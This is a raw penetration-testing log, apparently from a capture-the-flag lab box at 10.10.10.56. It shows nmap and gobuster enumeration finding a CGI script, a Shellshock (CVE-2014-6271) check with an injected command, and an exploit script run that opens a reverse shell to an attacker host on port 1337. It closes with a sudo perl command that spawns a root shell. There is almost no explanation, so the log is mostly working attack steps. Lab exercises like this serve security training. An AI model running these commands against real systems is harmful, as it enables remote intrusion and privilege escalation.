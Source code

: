 nmap -p- -sV -sC 10.10.10.56                     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 22:10 EDT
Nmap scan report for 10.10.10.56
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.20 seconds


gobuster dir -e -u 10.10.10.56/cgi-bin/ -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/small.txt -x sh,pl

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              pl,sh
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/06/12 22:37:07 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 119]
                                                                         
===============================================================
2021/06/12 22:37:21 Finished



nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=echo\;/bin/ls 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 23:58 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000094s latency).

PORT     STATE SERVICE VERSION
8081/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       user.sh
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.13 seconds


└─$ python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.5 lport=1337 pages=/cgi-bin/user.sh


[+] Possible sudo pwnage!
/usr/bin/perl

sudo /usr/bin/perl -e 'exec "/bin/sh"'